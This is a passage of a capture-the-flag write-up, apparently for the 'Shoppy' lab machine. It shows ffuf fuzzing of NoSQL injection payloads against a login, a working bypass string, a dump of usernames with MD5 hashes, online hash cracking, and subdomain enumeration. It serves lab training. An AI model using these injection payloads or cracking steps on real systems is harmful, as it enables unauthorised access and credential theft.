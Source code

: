 ```
 :: Data             : username=adminFUZZ&password=admin
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

{$nin: [""]}}           [Status: 302, Size: 51, Words: 4, Lines: 1, Duration: 154ms]
{"$gt": ""}             [Status: 302, Size: 51, Words: 4, Lines: 1, Duration: 464ms]
db.injection.insert({success:1}); [Status: 302, Size: 51, Words: 4, Lines: 1, Duration: 464ms]
|| 1==1                 [Status: 302, Size: 51, Words: 4, Lines: 1, Duration: 472ms]
db.injection.insert({success:1});return 1;db.stores.mapReduce(function() { { emit(1,1 [Status: 302, Size: 51, Words: 4, Lines: 1, Duration: 482ms]
' || 'a'=='a            [Status: 302, Size: 28, Words: 4, Lines: 1, Duration: 489ms]
```
 
-  Then, `' || 'a'=='` returns a response of different size.

- After logging in using username `admin' || 'a'=='a`, there is a page called `search-users` inside the admin portal.
- We can use the same injection (`admin' || 'a'=='a`) to get all users.

```
[
    {"_id":"62db0e93d6d6a999a66ee67a","username":"admin","password":"23c6877d9e2b564ef8b32c3a23de27b2"},{"_id":"62db0e93d6d6a999a66ee67b","username":"josh","password":"6ebcea65320589ca4f2f1ce039975995"}
]
```

- We used the credentials to log in but failed. It means that the password field is hashed by md5 algorithm.
  1. We can try `https://crackstation.net/` and `https://hashes.com/en/decrypt/hash` first. We successfully got the password of `josh` as `remembermethisway`.
  2. We tried `john` to crack the admin's password. Unfortunately, it failed.


## Virtual Host Enumeration

```
$ffuf -u http://shoppy.htb -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -H "Host: FUZZ.shoppy.htb" -fs 169 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.5.0 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://shoppy.htb
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt
 :: Header           : Host: FUZZ.shoppy.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: all
 :: Filter           : Response size: 169
________________________________________________

```